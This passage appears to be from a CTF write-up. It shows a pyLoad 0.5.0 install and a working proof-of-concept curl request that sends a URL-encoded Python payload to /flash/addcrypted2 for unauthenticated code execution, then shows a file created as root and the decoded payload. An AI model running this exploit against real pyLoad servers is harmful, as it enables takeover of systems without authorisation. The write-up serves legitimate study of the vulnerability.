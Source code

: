 ```bash
  --tempdir TEMPDIR     use this location to store temporary files
  --pidfile PIDFILE     set the full path to the pidfile
  --dry-run             test start-up and exit
  --daemon              run as daemon
  --quit                quit running pyLoad instance
  --status              display pid if running or 0
  --version             show program's version number and exit
sau@pc:/usr/local/bin$ pyload --version
pyLoad 0.5.0
```

[https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d](https://github.com/pyload/pyload/commit/7d73ba7919e594d783b3411d7ddb87885aea782d)  
[https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)  

```
proxychains -q curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sun, 21 May 2023 22:07:18 GMT
Server: Cheroot/8.6.0

Could not decrypt key
```

A straight copy paste of the PoC just works
```bash
sau@pc:/tmp$ date; ls -la /tmp/pwnd
Sun May 21 22:10:04 UTC 2023
-rw-r--r-- 1 root root 0 May 21 22:10 /tmp/pwnd
```

The original payload
```hex
%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29
```
==
```python
pyimport os;os.system("touch /tmp/pwnd")
```
